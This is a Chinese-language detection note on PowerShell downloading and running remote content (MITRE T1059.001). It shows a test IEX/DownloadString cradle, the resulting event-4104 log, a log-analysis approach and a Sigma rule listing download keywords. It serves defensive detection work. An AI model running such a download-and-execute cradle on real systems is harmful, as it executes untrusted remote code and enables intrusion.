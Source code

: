 ```powershell
PS C:\Users\12306br0> IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/details/89361287')
```

## 测试留痕

```yml
Powershell事件ID：4104
正在创建 Scriptblock 文本(已完成 1，共 1):
IEX (New-Object System.Net.Webclient).DownloadString('http://blog.csdn.net/huangxvhui88/article/details/89361287')

ScriptBlock ID: e9f29288-34e7-497f-8fff-9a6cf6c355da
```

## 检测规则/思路

**检测规则**  
通过分析PowerShell日志、Sysmon和Windows安全日志，检测PowerShell下载文件的异常行为。以下是具体思路：

1. **日志分析**：
   - 收集PowerShell日志（事件ID 4104），提取包含下载函数（如`Net.WebClient`、`Invoke-WebRequest`）或HTTP URL的脚本块。  
   - 收集Sysmon事件ID 1或Windows安全事件ID 4688，检测`powershell.exe`或`powershell_ise.exe`的命令行中包含下载相关关键字。  
   - 监控Sysmon事件ID 3，检测PowerShell发起的HTTP/HTTPS连接。

2. **Sigma规则（进程创建）**：
   ```yaml
   title: 检测PowerShell下载文件行为
   id: 6c7d8e0f-7a3b-4c2d-b9f8-4e5f6c7e8f9a
   status: stable
   description: 检测PowerShell执行下载文件的行为，可能表明恶意脚本执行
   references:
     - https://attack.mitre.org/techniques/T1059/001/
     - https://github.com/microsoft/Microsoft-365-Defender-Hunting-Queries/blob/master/Execution/PowerShell%20downloads.txt
   tags:
     - attack.execution
     - attack.t1059.001
   logsource:
     category: process_creation
     product: windows
   detection:
     selection:
       Image|endswith:
         - '\powershell.exe'
         - '\powershell_ise.exe'
       CommandLine|contains:
         - 'Net.WebClient'
         - 'DownloadFile'
         - 'DownloadString'
         - 'Invoke-WebRequest'
         - 'Start-BitsTransfer'
         - 'IEX'
         - 'http'
     condition: selection
   falsepositives:
     - 合法的软件更新或脚本下载
     - 管理员运行的维护脚本
   level: medium
   ```
